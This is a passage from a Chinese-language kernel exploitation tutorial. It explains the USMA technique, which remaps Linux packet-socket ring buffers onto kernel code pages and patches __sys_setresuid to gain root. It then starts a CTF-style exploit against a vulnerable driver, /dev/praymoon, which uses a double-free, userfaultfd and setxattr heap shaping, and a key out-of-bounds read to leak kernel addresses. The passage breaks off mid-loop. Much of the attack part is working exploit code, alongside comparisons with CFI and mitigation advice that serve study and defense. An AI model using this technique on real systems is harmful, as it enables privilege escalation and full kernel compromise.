    mutex_lock(&po->pg_vec_lock);                       // 获取pg_vec锁
    if (closing || atomic_read(&po->mapped) == 0) {     // 检查是否可以交换
        err = 0;                                        // 可以交换，设置成功
        spin_lock_bh(&rb_queue->lock);                  // 获取队列锁
        swap(rb->pg_vec, pg_vec);                       // 交换pg_vec数组
        if (po->tp_version <= TPACKET_V2)               // V1/V2版本
            swap(rb->rx_owner_map, rx_owner_map);       // 交换接收者映射
        rb->frame_max = (req->tp_frame_nr - 1);         // 设置最大帧索引
        rb->head = 0;                                   // 重置头部指针
        rb->frame_size = req->tp_frame_size;            // 设置帧大小
        spin_unlock_bh(&rb_queue->lock);                // 释放队列锁

        // 更新缓冲区参数
        swap(rb->pg_vec_order, order);                  // 交换分配阶数
        swap(rb->pg_vec_len, req->tp_block_nr);         // 交换数组长度
        rb->pg_vec_pages = req->tp_block_size / PAGE_SIZE; // 计算每块页面数

        // 更新接收函数
        po->prot_hook.func = (po->rx_ring.pg_vec) ? tpacket_rcv : packet_rcv;

        skb_queue_purge(rb_queue);                      // 清空队列

        if (atomic_read(&po->mapped))                   // 检查是否已有映射
            pr_err("packet_mmap: vma is busy: %d\n", atomic_read(&po->mapped));
    }
    mutex_unlock(&po->pg_vec_lock);                     // 释放pg_vec锁

    // 重新注册协议钩子
    spin_lock(&po->bind_lock);                          // 获取绑定锁
    if (was_running) {                                  // 如果之前正在运行
        WRITE_ONCE(po->num, num);                       // 恢复设备号
        register_prot_hook(sk);                         // 注册协议钩子
    }
    spin_unlock(&po->bind_lock);                        // 释放绑定锁

    // V3版本特定清理
    if (pg_vec && (po->tp_version > TPACKET_V2)) {      // V3版本
        if (!tx_ring)                                   // 接收环形缓冲区
            prb_shutdown_retire_blk_timer(po, rb_queue); // 关闭定时器
    }

out_free_pg_vec:                                        // 清理标签
    if (pg_vec) {                                       // 如果有分配的pg_vec
        bitmap_free(rx_owner_map);                      // 释放接收者映射
        free_pg_vec(pg_vec, order, req->tp_block_nr);   // 释放pg_vec数组
    }
out:                                                    // 退出标签
    return err;                                         // 返回错误码
}
```

**关键数据结构定义**：

```c
// pgv结构体，表示单个内存块
struct pgv {
    char *buffer;                                      // 指向数据缓冲区的指针，USMA技术的关键控制点
};

// packet环形缓冲区结构体
struct packet_ring_buffer {
    struct pgv *pg_vec;                                // pgv数组指针，包含所有内存块的描述符
    unsigned int head;                                 // 环形缓冲区头部索引，指示下一个可读/写位置
    unsigned int frames_per_block;                     // 每个内存块包含的帧数
    unsigned int frame_size;                           // 单个帧的大小（字节）
    unsigned int frame_max;                            // 最大帧索引，等于总帧数减1
    unsigned int pg_vec_order;                         // 页面分配阶数，决定每个buffer的大小（2^order页）
    unsigned int pg_vec_pages;                         // 每个buffer包含的页面数
    unsigned int pg_vec_len;                           // pg_vec数组的长度，等于内存块数量
    unsigned int __percpu *pending_refcnt;             // 每个CPU的挂起引用计数，用于同步
    union {                                            // 版本特定数据联合体
        unsigned long *rx_owner_map;                   // V1/V2版本：接收者映射位图
        struct tpacket_kbdq_core prb_bdqc;            // V3版本：块描述符队列核心结构
    };
};
```

**内存分配函数实现**：

alloc_pg_vec函数负责分配pg_vec数组和每个内存块的buffer：

```c
static struct pgv *alloc_pg_vec(struct tpacket_req *req, int order)
{
    unsigned int block_nr = req->tp_block_nr;           // 获取请求的内存块数量
    struct pgv *pg_vec;                                 // pg_vec数组指针
    int i;                                              // 循环索引

    // 分配pg_vec数组内存
    pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);
    if (unlikely(!pg_vec))                              // 检查分配是否成功
        goto out;                                       // 分配失败，跳转到返回

    // 为每个pg_vec元素分配物理页面
    for (i = 0; i < block_nr; i++) {
        pg_vec[i].buffer = alloc_one_pg_vec_page(order); // 分配单个内存块
        if (unlikely(!pg_vec[i].buffer))               // 检查页面分配是否成功
            goto out_free_pgvec;                       // 分配失败，跳转到清理
    }

out:                                                    // 返回标签
    return pg_vec;                                      // 返回分配的pg_vec数组

out_free_pgvec:                                         // 清理标签
    free_pg_vec(pg_vec, order, block_nr);               // 释放已分配的pg_vec
    pg_vec = NULL;                                      // 将指针设为NULL
    goto out;                                           // 跳转到返回
}
```

**内存释放函数**：

```c
static void free_pg_vec(struct pgv *pg_vec, unsigned int order, unsigned int len)
{
    int i;                                              // 循环索引

    for (i = 0; i < len; i++) {                         // 遍历每个内存块
        if (likely(pg_vec[i].buffer)) {                 // 检查buffer是否有效
            if (is_vmalloc_addr(pg_vec[i].buffer))      // 检查是否为vmalloc分配
                vfree(pg_vec[i].buffer);                // 释放vmalloc内存
            else
                free_pages((unsigned long)pg_vec[i].buffer, order); // 释放物理页面
            pg_vec[i].buffer = NULL;                    // 清空指针
        }
    }
    kfree(pg_vec);                                      // 释放pg_vec数组
}
```

#### 3-3-3. 内存映射机制实现

**packet_mmap函数分析**：

当用户空间调用mmap映射packet socket时，内核执行packet_mmap函数，这是USMA技术的核心：

```c
static int packet_mmap(struct file *file, struct socket *sock,
                       struct vm_area_struct *vma)
{
    struct sock *sk = sock->sk;                         // 获取socket对应的sock结构
    struct packet_sock *po = pkt_sk(sk);                // 转换为packet_sock结构
    unsigned long size, expected_size;                  // 映射大小变量
    struct packet_ring_buffer *rb;                      // 环形缓冲区指针
    unsigned long start;                                // 映射起始地址
    int err = -EINVAL;                                  // 错误码，初始为无效参数
    int i;                                              // 循环索引

    if (vma->vm_pgoff)                                  // 检查映射偏移，必须为0
        return -EINVAL;                                 // 偏移非0，返回无效参数

    mutex_lock(&po->pg_vec_lock);                       // 获取pg_vec锁，防止并发修改

    expected_size = 0;                                  // 初始化预期大小
    // 计算接收和发送环形缓冲区的总大小
    for (rb = &po->rx_ring; rb <= &po->tx_ring; rb++) { // 遍历接收和发送环形缓冲区
        if (rb->pg_vec) {                               // 如果缓冲区已分配
            expected_size += rb->pg_vec_len             // 数组长度
                          * rb->pg_vec_pages            // 每块页面数
                          * PAGE_SIZE;                  // 页面大小
        }
    }

    if (expected_size == 0)                             // 检查是否已分配缓冲区
        goto out;                                       // 未分配，跳转到结束

    size = vma->vm_end - vma->vm_start;                 // 计算请求的映射大小
    if (size != expected_size)                          // 验证大小是否匹配
        goto out;                                       // 大小不匹配，跳转到结束

    start = vma->vm_start;                              // 获取用户空间映射起始地址
    // 遍历接收和发送环形缓冲区
    for (rb = &po->rx_ring; rb <= &po->tx_ring; rb++) { // 遍历接收和发送环形缓冲区
        if (rb->pg_vec == NULL)                         // 检查缓冲区是否已分配
            continue;                                   // 未分配，跳过当前缓冲区

        // 遍历pg_vec数组中的每个元素
        for (i = 0; i < rb->pg_vec_len; i++) {          // 遍历每个内存块
            struct page *page;                          // 页面结构指针
            void *kaddr = rb->pg_vec[i].buffer;         // 获取buffer指针
            int pg_num;                                 // 页面索引

            // 将buffer指向的每个页面映射到用户空间
            for (pg_num = 0; pg_num < rb->pg_vec_pages; pg_num++) { // 遍历每个页面
                page = pgv_to_page(kaddr);              // 虚拟地址转物理页面
                err = vm_insert_page(vma, start, page); // 插入页面到用户空间
                if (unlikely(err))                      // 检查插入是否成功
                    goto out;                           // 失败，跳转到结束
                start += PAGE_SIZE;                     // 更新映射地址
                kaddr += PAGE_SIZE;                     // 更新内核地址
            }
        }
    }

    atomic_inc(&po->mapped);                            // 增加映射计数
    vma->vm_ops = &packet_mmap_ops;                     // 设置VMA操作结构
    err = 0;                                            // 设置成功返回码

out:                                                    // 退出标签
    mutex_unlock(&po->pg_vec_lock);                     // 释放pg_vec锁
    return err;                                         // 返回操作结果
}
```

**页面映射核心函数**：

vm_insert_page函数负责将物理页面插入到用户空间的虚拟地址区域：

```c
int vm_insert_page(struct vm_area_struct *vma, unsigned long addr, struct page *page)
{
    if (addr < vma->vm_start || addr >= vma->vm_end)    // 检查地址是否在VMA范围内
        return -EFAULT;                                 // 地址无效，返回错误
    if (!page_count(page))                              // 检查页面引用计数
        return -EINVAL;                                 // 页面无效，返回错误
    if (!(vma->vm_flags & VM_MIXEDMAP)) {               // 检查VMA是否允许混合映射
        BUG_ON(mmap_read_trylock(vma->vm_mm));          // 确保已持有mmap锁
        BUG_ON(vma->vm_flags & VM_PFNMAP);              // 确保不是PFN映射
        vm_flags_set(vma, VM_MIXEDMAP);                 // 设置混合映射标志
    }
    return insert_page(vma, addr, page, vma->vm_page_prot); // 调用底层插入函数
}
EXPORT_SYMBOL(vm_insert_page);

static int insert_page(struct vm_area_struct *vma, unsigned long addr,
                       struct page *page, pgprot_t prot)
{
    int retval;                                         // 返回值
    pte_t *pte;                                         // 页表项指针
    spinlock_t *ptl;                                    // 页表锁指针

    retval = validate_page_before_insert(page);         // 验证页面有效性
    if (retval)                                         // 检查验证结果
        goto out;                                       // 验证失败，跳转到结束
    retval = -ENOMEM;                                   // 设置错误码为内存不足
    pte = get_locked_pte(vma->vm_mm, addr, &ptl);       // 获取页表项和锁
    if (!pte)                                           // 检查页表项是否有效
        goto out;                                       // 无效，跳转到结束
    retval = insert_page_into_pte_locked(vma, pte, addr, page, prot); // 插入页面
    pte_unmap_unlock(pte, ptl);                         // 释放页表项和锁
out:                                                    // 退出标签
    return retval;                                      // 返回结果
}
```

**页面验证函数**：

validate_page_before_insert函数验证页面是否适合映射到用户空间：

```c
static int validate_page_before_insert(struct page *page)
{
    if (PageAnon(page) || PageSlab(page) || page_has_type(page)) // 检查页面类型
        return -EINVAL;                                 // 匿名页、Slab页或特殊类型页不允许
    flush_dcache_page(page);                            // 刷新数据缓存确保一致性
    return 0;                                           // 验证通过
}
```

**页面插入函数**：

insert_page_into_pte_locked函数将页面插入到锁定的页表项中：

```c
static int insert_page_into_pte_locked(struct vm_area_struct *vma, pte_t *pte,
                                       unsigned long addr, struct page *page, pgprot_t prot)
{
    if (!pte_none(ptep_get(pte)))                       // 检查页表项是否已占用
        return -EBUSY;                                  // 已占用，返回设备忙错误
    // 成功，插入页面
    get_page(page);                                     // 增加页面引用计数
    inc_mm_counter(vma->vm_mm, mm_counter_file(page));  // 增加内存计数器
    page_add_file_rmap(page, vma, false);               // 添加反向映射
    set_pte_at(vma->vm_mm, addr, pte, mk_pte(page, prot)); // 设置页表项
    return 0;                                           // 返回成功
}
```

### 3-4. USMA技术实现步骤

#### 3-4-1. 阶段一：环境初始化与缓冲区设置

**用户空间初始化代码**：

```c
// 创建packet socket描述符
int packet_fd = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL)); // 创建原始包socket
if (packet_fd < 0) {                                   // 检查socket创建是否成功
    perror("创建packet socket失败");                    // 输出错误信息
    return -1;                                         // 返回错误代码
}

// 配置环形缓冲区参数
struct tpacket_req req = {                             // 环形缓冲区请求结构
    .tp_block_size = 4096,                             // 设置块大小为4KB（一页）
    .tp_block_nr = 1,                                  // 设置块数量为1
    .tp_frame_size = 4096,                             // 设置帧大小为4KB
    .tp_frame_nr = 1                                   // 设置帧数量为1
};

// 设置接收环形缓冲区
int ret = setsockopt(packet_fd, SOL_PACKET, PACKET_RX_RING, &req, sizeof(req));
if (ret < 0) {                                         // 检查设置是否成功
    perror("设置环形缓冲区失败");                         // 输出错误信息
    close(packet_fd);                                  // 关闭socket
    return -1;                                         // 返回错误代码
}
```

**内核内存分配流程**：


```mermaid
sequenceDiagram
    participant 用户空间
    participant 内核空间
    participant 内存管理

    用户空间->>内核空间: setsockopt(PACKET_RX_RING, req)
    内核空间->>内核空间: packet_setsockopt()
    内核空间->>内核空间: packet_set_ring()
    内核空间->>内存管理: alloc_pg_vec(req, order)

    内存管理->>内存管理: kcalloc(block_nr, sizeof(struct pgv))
    内存管理-->>内核空间: 返回pg_vec数组

    loop 对每个内存块
        内核空间->>内存管理: alloc_one_pg_vec_page(order)
        内存管理-->>内核空间: 返回buffer地址
        内核空间->>内核空间: pg_vec[i].buffer = buffer
    end

    内核空间-->>用户空间: 返回成功
```

#### 3-4-2. 阶段二：指针控制与重定向

**内存操作场景**：

通过内存操作场景，可以控制已分配的pg_vec数组中的buffer指针：

```c
// 假设可以控制pg_vec数组的内存内容
struct pgv *pg_vec = /* 通过操作获取的pg_vec指针 */;

// 计算目标内核函数页面地址
unsigned long target_func_addr = (unsigned long)&__sys_setresuid; // 获取目标函数地址
unsigned long target_page_addr = target_func_addr & ~(PAGE_SIZE - 1); // 计算页面对齐地址

// 关键步骤：重定向buffer指针指向目标内核页面
pg_vec[0].buffer = (char *)target_page_addr;           // 修改buffer指针
```

**目标函数分析**：

以\_\_sys_setresuid函数为例，该函数包含权限检查逻辑：

```c
long __sys_setresuid(uid_t ruid, uid_t euid, uid_t suid)
{
    struct user_namespace *ns = current_user_ns();      // 获取当前用户命名空间
    const struct cred *old;                             // 旧凭证指针
    struct cred *new;                                   // 新凭证指针
    int retval;                                         // 返回值
    kuid_t kruid, keuid, ksuid;                         // 内核UID表示
    bool ruid_new, euid_new, suid_new;                  // UID变化标志

    // 关键点1: 用户空间UID转换为内核UID
    kruid = make_kuid(ns, ruid);                        // 转换真实UID
    keuid = make_kuid(ns, euid);                        // 转换有效UID
    ksuid = make_kuid(ns, suid);                        // 转换保存的UID

    // 参数有效性验证
    if ((ruid != (uid_t) -1) && !uid_valid(kruid))      // 验证真实UID
        return -EINVAL;                                 // 无效，返回错误
    if ((euid != (uid_t) -1) && !uid_valid(keuid))      // 验证有效UID
        return -EINVAL;                                 // 无效，返回错误
    if ((suid != (uid_t) -1) && !uid_valid(ksuid))      // 验证保存的UID
        return -EINVAL;                                 // 无效，返回错误

    old = current_cred();                               // 获取当前进程凭证

    // 检查是否无需更改UID（无操作检查）
    if ((ruid == (uid_t) -1 || uid_eq(kruid, old->uid)) &&
        (euid == (uid_t) -1 || (uid_eq(keuid, old->euid) &&
                                uid_eq(keuid, old->fsuid))) &&
        (suid == (uid_t) -1 || uid_eq(ksuid, old->suid)))
        return 0;                                       // 无需更改，直接返回

    // 检查UID是否发生了变化
    ruid_new = ruid != (uid_t) -1        && !uid_eq(kruid, old->uid) &&
               !uid_eq(kruid, old->euid) && !uid_eq(kruid, old->suid);
    euid_new = euid != (uid_t) -1        && !uid_eq(keuid, old->uid) &&
               !uid_eq(keuid, old->euid) && !uid_eq(keuid, old->suid);
    suid_new = suid != (uid_t) -1        && !uid_eq(ksuid, old->uid) &&
               !uid_eq(ksuid, old->euid) && !uid_eq(ksuid, old->suid);

    // 关键点2: 权限检查逻辑
    if ((ruid_new || euid_new || suid_new) &&           // 如果有UID变化
        !ns_capable_setid(old->user_ns, CAP_SETUID))    // 且没有CAP_SETUID能力
        return -EPERM;                                  // 返回权限错误

    // 准备新的凭证结构
    new = prepare_creds();                              // 准备新凭证
    if (!new)                                           // 检查分配是否成功
        return -ENOMEM;                                 // 内存不足，返回错误

    // 设置新的UID
    if (ruid != (uid_t) -1) {                           // 设置真实UID
        new->uid = kruid;                               // 设置新真实UID
        if (!uid_eq(kruid, old->uid)) {                 // 检查真实UID是否变化
            retval = set_user(new);                     // 更新用户信息
            if (retval < 0)                             // 检查是否成功
                goto error;                             // 失败，跳转到错误处理
        }
    }
    if (euid != (uid_t) -1)                             // 设置有效UID
        new->euid = keuid;                              // 设置新有效UID
    if (suid != (uid_t) -1)                             // 设置保存的UID
        new->suid = ksuid;                              // 设置新保存的UID
    new->fsuid = new->euid;                             // 设置文件系统UID

    // 安全模块回调
    retval = security_task_fix_setuid(new, old, LSM_SETID_RES); // 调用安全模块
    if (retval < 0)                                     // 检查安全模块结果
        goto error;                                     // 失败，跳转到错误处理

    // 设置用户计数
    retval = set_cred_ucounts(new);                     // 更新用户计数
    if (retval < 0)                                     // 检查是否成功
        goto error;                                     // 失败，跳转到错误处理

    // 检查进程数限制
    flag_nproc_exceeded(new);                           // 检查进程数是否超限
    return commit_creds(new);                           // 提交新凭证，返回成功

error:                                                  // 错误处理标签
    abort_creds(new);                                   // 中止凭证更改
    return retval;                                      // 返回错误代码
}
```

**函数执行流程**：


```mermaid
flowchart TD
    A[__sys_setresuid入口] --> B[参数验证]
    B --> C[UID转换: make_kuid]
    C --> D[获取当前凭证]
    D --> E[检查UID变化]
    E --> F{权限检查: ns_capable_setid}
    F -- 通过 --> G[创建新凭证]
    F -- 失败 --> H[返回-EPERM]
    G --> I[设置新UID]
    I --> J[安全模块检查]
    J --> K[提交凭证]
    K --> L[返回成功]
    H --> M[结束]

    subgraph 关键修改点
        C1[make_kuid调用点<br/>UID有效性检查]
        F1[ns_capable_setid检查<br/>权限验证逻辑]
    end

    C -.-> C1
    F -.-> F1
```

#### 3-4-3. 阶段三：内存映射建立

**用户空间映射代码**：

```c
// 计算映射区域大小
size_t map_size = req.tp_block_size * req.tp_block_nr;  // 映射总大小，通常为4096字节

// 建立用户空间内存映射
void *mapped_addr = mmap(NULL,                          // 映射起始地址，NULL表示由系统选择
                         map_size,                      // 映射区域大小
                         PROT_READ | PROT_WRITE,        // 映射区域权限：可读可写
                         MAP_SHARED | MAP_LOCKED,       // 映射标志：共享映射，锁定在内存
                         packet_fd,                     // packet socket文件描述符
                         0);                            // 文件偏移量，必须为0

if (mapped_addr == MAP_FAILED) {                        // 检查映射是否成功
    perror("mmap操作失败");                              // 输出错误信息
    close(packet_fd);                                   // 关闭socket
    return -1;                                          // 返回错误代码
}

printf("成功映射内核内存到用户空间: %p\n", mapped_addr);  // 输出映射地址
```

**内核映射执行流程**：


```mermaid
sequenceDiagram
    participant 用户进程
    participant 系统调用
    participant VFS层
    participant Socket层
    participant Packet模块
    participant 内存管理

    用户进程->>系统调用: mmap(packet_fd, ...)
    系统调用->>VFS层: 调用文件操作mmap
    VFS层->>Socket层: sock_mmap(file, vma)
    Socket层->>Packet模块: packet_mmap(file, vma)

    Packet模块->>Packet模块: 验证映射参数
    Packet模块->>Packet模块: 遍历pg_vec数组

    loop 对每个pg_vec元素
        Packet模块->>Packet模块: 获取buffer指针
        Packet模块->>内存管理: pgv_to_page(buffer)
        内存管理-->>Packet模块: 返回物理页面
        Packet模块->>内存管理: vm_insert_page(vma, addr, page)
        内存管理-->>Packet模块: 映射建立成功
    end

    Packet模块-->>Socket层: 返回成功
    Socket层-->>VFS层: 返回成功
    VFS层-->>系统调用: 返回映射地址
    系统调用-->>用户进程: 返回用户空间地址
```

#### 3-4-4. 阶段四：内存访问与修改

**内核代码修改示例**：

```c
// 计算目标函数在页面内的偏移
unsigned long target_func_addr = (unsigned long)&__sys_setresuid; // 目标函数地址
unsigned long target_page_addr = target_func_addr & ~(PAGE_SIZE - 1); // 页面对齐地址
unsigned long func_offset = target_func_addr - target_page_addr; // 计算页面内偏移

// 定位到目标内存位置
uint8_t *target_memory = (uint8_t *)mapped_addr + func_offset; // 目标内存地址

// 读取并分析原始指令
size_t read_size = 64;                                  // 读取64字节进行分析
uint8_t original_code[64];                              // 保存原始指令
for (size_t i = 0; i < read_size; i++) {                // 遍历读取
    original_code[i] = target_memory[i];                // 读取当前字节
    printf("%02x ", original_code[i]);                  // 输出十六进制
    if ((i + 1) % 16 == 0) printf("\n");                // 每16字节换行
}

// 分析关键指令位置（通过反汇编确定）
unsigned long patch_offset = 0x20;                      // 补丁偏移位置
uint8_t patch_bytes[] = {0x90, 0x90, 0x90, 0x90, 0x90}; // 5个NOP指令（x86架构）

// 保存原始字节以便恢复
uint8_t saved_bytes[sizeof(patch_bytes)];               // 保存原始指令
for (size_t i = 0; i < sizeof(patch_bytes); i++) {      // 遍历保存
    saved_bytes[i] = target_memory[patch_offset + i];   // 保存原始字节
}

// 应用补丁
for (size_t i = 0; i < sizeof(patch_bytes); i++) {      // 遍历修改
    target_memory[patch_offset + i] = patch_bytes[i];   // 写入NOP指令
}
```

**功能验证代码**：

```c
// 功能验证示例
void verify_operation(void)
{
    uid_t original_uid = getuid();                       // 获取原始用户ID
    uid_t original_euid = geteuid();                     // 获取原始有效用户ID
    uid_t test_uid = 0;                                  // 测试用户ID

    printf("原始用户ID: %d, 原始有效用户ID: %d\n", original_uid, original_euid);

    // 测试setresuid系统调用
    if (setresuid(test_uid, test_uid, test_uid) == 0) {  // 尝试设置用户ID
        printf("setresuid操作成功！\n");                  // 输出成功信息
        printf("当前用户ID: %d, 当前有效用户ID: %d\n", getuid(), geteuid());

        // 验证权限
        if (geteuid() == 0) {                            // 检查权限
            printf("权限验证成功！\n");                  // 输出成功信息

            // 执行系统操作
            if (system("id") == 0) {                     // 执行id命令
                printf("系统命令执行成功\n");             // 输出成功信息
            }

            // 恢复原始UID
            if (setresuid(original_uid, original_uid, original_uid) == 0) {
                printf("已恢复原始用户ID\n");             // 输出恢复信息
            }
        }
    } else {                                            // 操作失败
        printf("操作未能完成: %s\n", strerror(errno));   // 显示错误信息
    }
}

// 恢复原始代码
void restore_original_code(uint8_t *target_memory, unsigned long patch_offset,
                          uint8_t *saved_bytes, size_t patch_size)
{
    for (size_t i = 0; i < patch_size; i++) {           // 遍历恢复
        target_memory[patch_offset + i] = saved_bytes[i]; // 恢复原始字节
    }

    printf("已恢复原始内核代码\n");                       // 输出恢复信息
}
```

### 3-5. 技术对比与分析

#### 3-5-1. 与传统技术对比

| 技术维度       | 传统控制流技术                              | USMA技术                                   |
| -------------- | ------------------------------------------- | ------------------------------------------ |
| **实现原理**   | 基于控制流，修改函数指针或返回地址          | 直接内存访问，修改内核代码指令             |
| **实现复杂度** | 高：需构造复杂控制流链，考虑栈布局、ROP链等 | 中：直接访问目标内存，无需复杂控制流构造   |
| **可靠性**     | 中等：依赖特定代码片段，受KASLR影响         | 高：直接访问目标内存，不受KASLR影响        |
| **检测规避**   | 有限：受CFI机制限制，异常控制流易被检测     | 有效：通过合法路径访问，CFI检查正常通过    |
| **所需条件**   | 需信息获取地址，需控制流操作原语            | 需内存操作控制指针，需内核函数地址         |
| **系统影响**   | 较易检测：异常控制流、栈破坏等特征明显      | 较难检测：合法系统调用路径，仅内存内容变化 |
| **通用性**     | 依赖特定模式和内存布局                      | 基于标准内核接口，通用性较好               |
| **权限需求**   | 通常需要内核执行权限                        | 需要内核内存访问权限                       |

#### 3-5-2. 安全机制分析

**控制流完整性（CFI）机制**：


```mermaid
mindmap
  root(CFI机制与USMA)
    CFI基本原理
      间接跳转验证
      有效目标地址集合
      静态分析与运行时检查
    传统技术检测
      控制流操作
      目标地址不在有效集合
      CFI检查失败
    USMA机制
      不改变控制流
      所有跳转目标不变
      直接修改函数逻辑
      CFI检查正常通过
    检测挑战
      内存完整性检查需求
      控制流监控失效
      需要代码签名验证
```

**其他安全机制影响**：

1. **KASLR（内核地址空间布局随机化）**：
    - 传统技术：需要信息获取内核地址
    - USMA：同样需要目标函数地址，但通过系统信息可获取

2. **SMEP/SMAP（管理模式执行/访问保护）**：
    - 传统技术：需要绕过用户空间代码执行限制
    - USMA：通过合法映射访问内核内存，不涉及直接用户空间执行

3. **KPTI（内核页表隔离）**：
    - 传统技术：用户空间无法访问内核页表
    - USMA：通过映射机制间接访问内核内存

4. **代码签名与完整性**：
    - 传统技术：可能被代码签名机制阻止
    - USMA：修改运行时代码，绕过静态签名检查

#### 3-5-3. 防护建议与缓解措施

1. **内存完整性保护**：
    - 实施内核代码段写保护，防止代码被修改
    - 使用硬件支持的内存保护机制
    - 定期校验关键内核函数的完整性

2. **指针完整性检查**：
    - 对关键数据结构指针进行完整性验证
    - 实施指针验证机制
    - 使用安全的内存分配器

3. **访问控制强化**：
    - 限制packet socket的内存映射权限
    - 实施细粒度的能力控制
    - 最小权限原则，按需分配权限

4. **监控与检测**：
    - 监控异常的内存映射行为
    - 检测内核代码段修改尝试
    - 实时分析系统调用模式

### 3-6. 技术总结

**[USMA（User-Space-Mapping-Attack）](https://vul.360.net/archives/391)** 技术代表了一种新型的内核访问方法，它通过利用合法系统接口和内存映射机制，实现用户空间对内核内存的直接访问。该技术基于Linux内核packet socket模块的环形缓冲区机制，通过控制关键数据结构指针，将指定的内核内存区域映射到用户空间，从而实现对内核内存的读取和修改。

该技术的核心价值在于其创新的实现方式，它不依赖于传统的控制流操作，而是通过合法的系统调用路径实现内存访问，这使得它能够规避基于控制流的检测机制。同时，该技术也揭示了操作系统安全机制中可能存在的一些盲点，特别是在内存完整性保护方面。

从技术实现角度看，USMA涉及多个关键步骤：环境初始化与缓冲区设置、指针控制与重定向、内存映射建立、以及内存访问与修改。每个步骤都依赖于特定的内核机制和接口，包括socket创建、setsockopt参数设置、内存分配、mmap映射等。

该技术的出现对系统安全提出了新的挑战，也促使安全研究人员重新思考内核保护策略。有效的防护需要从预防、检测、响应多个层面构建综合防护体系，结合软件和硬件技术，形成纵深防御。同时，这也表明系统安全是一个持续演进的领域，需要不断适应新的技术发展和挑战。

通过对USMA技术的深入分析，不仅能够更好地理解这种特定技术方法，更重要的是能够从中提取一般性的安全原则，为设计更安全的操作系统和防御机制提供有价值的参考。在日益复杂的计算环境中，这种深入的技术分析和前瞻性的安全思考显得尤为重要。

## 4. 实战演练

exploit核心代码如下：

```c
// Constants
#define KERNEL_MASK 0xfffffffffffff000
#define __SYS_SETRESUID 0xffffffff81088940
#define CRYPTO_LARVAL_DESTROY 0xffffffff81439870
#define IGMP_GQ_TIMER_EXPIRE 0xffffffff81adb9a0
#define UUFD_COUNT 0x10

// Device interaction
#define ADD_CHUNK 0x5555
#define DELETE_CHUNK 0x6666

// Global variables
static int dev_fd = -1;
static int key_id = -1;
static size_t __sys_setresuid = 0;

static uffd_context_t *uffd_context[UUFD_COUNT] = {0};
static size_t *uffd_copy_data = NULL;
static size_t uffd_data[0x1000 / 8] = {0};
static size_t key_payload[0x1000 / 8] = {0};

static struct pgv_config v3_cfg = {
    .proto_ver = PGV_PROTO_V3,
    .blk_size = 0x1000,
    .blk_count = 0x108 / 8,
    .frame_size = 2048,
    .priv_len = 0,
    .timeout = 1000 * 1000 * 1000,
};

/* Device driver interface functions */
static int add_chunk(void) {
    int ret = ioctl(dev_fd, ADD_CHUNK);
    if (ret < 0) {
        log.error("Failed to allocate chunk via device driver");
    }
    return ret;
}

static int delete_chunk(void) {
    int ret = ioctl(dev_fd, DELETE_CHUNK);
    if (ret < 0) {
        log.error("Failed to delete chunk via device driver");
    }
    return ret;
}

/* Function prototypes */
static int initialize_environment(void);
static int trigger_uaf_and_leak_addresses(void);
static int prepare_and_execute_usma_attack(void);
static int patch_kernel_and_escalate(void);

/* Initialize all exploit prerequisites */
static int initialize_environment(void) {
    log.info("=== Phase 1: Initializing Exploit Environment ===");

    // Bind CPU to core 0 for stability
    bind_core(0);

    // Initialize PGV V3 system for user-space page fault handling
    log.info("Initializing PGV V3 system for page fault management");
    if (pgv_init(PGV_PROTO_V3) < 0) {
        log.error("Failed to initialize PGV system");
        return -1;
    }
    sleep(2);
    log.success("PGV V3 system initialized successfully");

    // Setup userfaultfd contexts for page fault monitoring
    log.info("Setting up userfaultfd contexts for page fault monitoring");
    page_range_t range = {1, 1};
    uffd_context[0] = uffd_context_create(2, NULL, NULL, &range, UFFD_VERSION_V1);
    uffd_context[1] = uffd_context_create(2, NULL, NULL, &range, UFFD_VERSION_V1);
    uffd_context[2] = uffd_context_create(2, NULL, NULL, &range, UFFD_VERSION_V1);

    if (!uffd_context[0] || !uffd_context[1] || !uffd_context[2]) {
        log.error("Failed to create userfaultfd contexts");
        return -1;
    }

    // Configure data for the first userfaultfd to modify key_payload->datalen
    uffd_data[0] = 0;
    uffd_data[1] = 0;
    uffd_data[2] = 0x1000;  // This will overwrite key_payload->datalen to 0x1000
    uffd_data[3] = 0;
    uffd_write_safe_page(uffd_context[0], 0, 0x1000 - 0x20, uffd_data, 0x20);
    log.success("Created 3 userfaultfd contexts for page fault handling");

    // Open the vulnerable device driver
    log.info("Opening vulnerable device /dev/praymoon");
    dev_fd = open("/dev/praymoon", O_RDONLY);
    if (dev_fd < 0) {
        log.error("Failed to open /dev/praymoon");
        return -1;
    }
    log.success("Device opened successfully with file descriptor: %d", dev_fd);

    return 0;
}

/* Setup heap state, trigger UAF, and leak kernel addresses */
static int trigger_uaf_and_leak_addresses(void) {
    log.info("=== Phase 2: Triggering UAF and Leaking Kernel Addresses ===");

    // Setup initial heap state with allocate/free pattern
    log.info("Setting up heap state with allocate/free pattern");
    if (add_chunk() < 0) {
        return -1;
    }
    log.debug("Allocated challenge object via driver");

    if (delete_chunk() < 0) {
        return -1;
    }
    log.debug("Freed challenge object, creating double-free condition");

    // Allocate key object overlapping with freed memory
    log.info("Allocating key object to overlap with freed memory");
    key_id = key_alloc("BinRacer", key_payload, 0xf0);
    if (key_id < 0) {
        log.error("Failed to allocate key object");
        return -1;
    }
    log.success("Key object allocated with ID: %d", key_id);

    // Trigger double-free to create UAF condition
    log.info("Triggering double-free to create UAF condition");
    if (delete_chunk() < 0) {
        return -1;
    }
    log.success("Double-free triggered, UAF condition created");

    // Use setxattr+userfaultfd technique to modify key_payload->datalen
    log.info("Using setxattr+userfaultfd technique to modify key_payload->datalen");
    uffd_copy_data = (size_t *)((char *)uffd_get_monitor_region(uffd_context[0]) + 0x1000 - 0x20);
    log.debug("Userfaultfd page fault handler configured at 0x%p", uffd_copy_data);

    log.debug("Calling setxattr to trigger page fault and overwrite key_payload->datalen");
    RUN_JOB(setxattr, "/etc/passwd", "user.test", uffd_copy_data, 0x200, XATTR_CREATE);
    uffd_wait_for_fault(uffd_context[0]);
    log.success("Page fault triggered successfully, key_payload->datalen modified to 0x1000");

    // Perform OOB read to leak kernel pointers
    log.info("Performing OOB read to leak kernel pointers");
    if (key_read(key_id, key_payload, 0x1000) != 0x1000) {
        log.error("Failed to read key payload");
        return -1;
    }
    log.success("OOB read completed, scanning for kernel symbols...");

    // Scan for known kernel symbols in leaked data
    log.info("Scanning leaked memory for known kernel symbols");
    kernel_offset = -1;

    for (int i = 0; i < 0x200; i++) {
        if ((key_payload[i] > kernel_base) &&
